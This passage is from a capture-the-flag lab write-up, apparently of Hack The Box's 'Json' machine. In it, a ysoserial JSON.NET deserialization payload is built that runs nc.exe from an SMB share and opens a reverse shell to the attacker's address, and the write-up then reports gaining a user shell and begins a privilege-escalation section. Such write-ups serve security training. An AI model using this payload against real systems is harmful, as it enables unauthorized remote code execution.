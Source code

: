 I'll need to base64 encode the payload so I use the -o base64 flag instead:

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444" -o base64
ew0KICAgI[...]Dg5J30NCn0=
```

When I send the payload in the `Bearer` I still get a 500 error message...

![](/assets/images/htb-writeup-json/shell500.png)

But a few seconds after I get a callback on my SMB server then a shell after:

![](/assets/images/htb-writeup-json/shell.png)

My user is `userpool` and he has the user.txt flag in his desktop folder:

![](/assets/images/htb-writeup-json/user.png)

## Privesc unintended method

First, let's check which Windows version the machine is running.

```
c:\windows\system32\inetsrv>systeminfo | findstr Windows
OS Name:                   Microsoft Windows Server 2012 R2 Datacenter
```

